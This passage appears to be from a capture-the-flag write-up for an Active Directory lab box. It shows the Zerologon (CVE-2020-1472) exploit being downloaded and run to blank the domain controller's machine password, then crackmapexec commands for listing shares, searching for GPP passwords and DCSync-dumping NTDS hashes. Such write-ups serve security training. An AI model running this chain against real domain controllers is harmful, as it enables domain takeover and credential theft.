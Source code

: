 ![](https://i.imgur.com/9cIICbW.png)

![](https://i.imgur.com/mwd5eAJ.jpg)

### Root

####  Zerologon (CVE-2020-1472)

Zerologon is a well-known vulnerability that was disclosed in september 2020. It is exploiting the protocol NetLogon. This protocol is a remote session opening based on RPC calls. But it is also allowing a computer to update his domain computer password from a domain controller. Because of a weak cryptographic configuration, we can set all the challenges to `00000000000000000000000000000000` an impersonate the call to change the password of the computer domain account.

This is what we'll do here, we'll empty the password of `DC01$` domain account. The accounts that ends with `$` are the domain machine accounts.

```bash
wget https://raw.githubusercontent.com/dirkjanm/CVE-2020-1472/master/cve-2020-1472-exploit.py
python3 cve-2020-1472-exploit.py DC01 10.129.235.160
```

So we can now login using `DC01$` just as if we were a classical user and list the shares.

```bash
crackmapexec smb dc01.contempt.htb -d 'contempt.htb' -u 'DC01$' -p '' --shares
```

![](https://i.imgur.com/oxmQSuV.png)


This means that our exploit worked properly. Unfortunately, nothing interesting here. I also tried to see if there is some GPO stored in the `SYSVOL` share that has encrypted password in it.

```bash
crackmapexec smb dc01.contempt.htb -d 'contempt.htb' -u 'DC01$' -p '' -M gpp_password
```

![](https://i.imgur.com/5Aj9OM2.png)

But no passwords.

#### DCSync using empty DC01$

One very useful trick, now that we have the account machine, is that we have the extended privileges `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`. Which means that we can use DCSync to retrieve all the data from the domain controller such as : 
- Domain account username & hashes
- Kerberos keys
- Passwords stored using reversible encryption
- LSA secrets

```bash
crackmapexec smb dc01 -u 'DC01$' -p '' --ntds
```

![](https://i.imgur.com/9uVxWQh.png)

